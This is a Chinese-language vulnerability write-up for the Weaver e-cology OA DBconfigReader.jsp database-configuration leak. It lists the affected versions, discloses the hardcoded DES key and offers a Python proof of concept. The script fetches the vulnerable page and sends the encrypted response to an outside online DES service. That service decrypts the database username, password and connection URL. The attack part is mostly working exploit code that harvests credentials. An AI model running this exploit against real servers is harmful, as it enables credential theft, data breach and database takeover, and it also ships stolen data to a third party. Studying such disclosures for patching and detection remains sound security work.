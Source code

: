 # 泛微OA DBconfigReader.jsp 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

参考阅读：

- https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg

## 漏洞影响

```
目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版
```

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）

![image-20220209103714654](images/202202091037951.png)

可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。

## 漏洞POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码

```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```
